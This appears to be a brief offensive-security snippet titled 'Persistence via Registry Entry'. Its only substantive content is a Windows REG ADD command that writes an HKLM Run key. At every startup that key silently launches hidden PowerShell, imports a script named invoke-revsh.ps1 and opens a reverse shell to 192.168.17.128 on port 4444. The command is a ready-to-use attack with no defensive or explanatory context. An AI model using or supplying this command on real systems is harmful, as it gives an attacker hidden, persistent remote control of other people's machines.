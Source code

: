 Persistence via Registry Entry

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v persistent /t REG_SZ /d "powershell.exe -windowstyle hidden -c \"Start-Process powershell.exe -windowstyle hidden 'import-module C:\Users\Admin\Desktop\invoke-revsh.ps1; invoke-revsh -reverse -ipaddress 192.168.17.128 -port 4444';exit\""
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
